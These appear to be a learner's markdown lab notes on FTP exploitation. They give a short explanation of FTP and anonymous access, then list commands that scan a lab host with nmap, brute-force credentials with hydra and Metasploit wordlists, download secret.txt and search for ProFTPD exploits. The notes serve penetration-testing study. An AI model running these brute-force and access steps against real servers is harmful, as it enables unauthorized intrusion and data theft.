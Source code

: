 #### FTF Exploitation
- FTP (File transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and clients/client
- It is also frequently used as a means of transfering files to and from the directory of a web server.
- FTP authentication requires a username and password combination.As a result,we can perform a brute-force attack on th FTP sever in order to identify legitimate credentials
- In some cases,FTP servers may be configured to allow anonymous access which consequently allows to access to the FTP server without providing any legitimate credentials.
#### Lab
- nmap -sV 192.93.66.3 [finding ftp service]
- ftp 192.93.66.3 [ for accessing ftp ]
- ls -al /usr/share/nmap/scripts/ | grep ftp-* [ this will list all the ftp scripts ]
- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -t 4 ftp [ for loging credentials finding ]
- ftp 192.93.66.3 [ again the access with fing credentials ]
- get secret.txt [ download a file ]
- searchsploit  Proftpd [ here Proftpd is the service ]
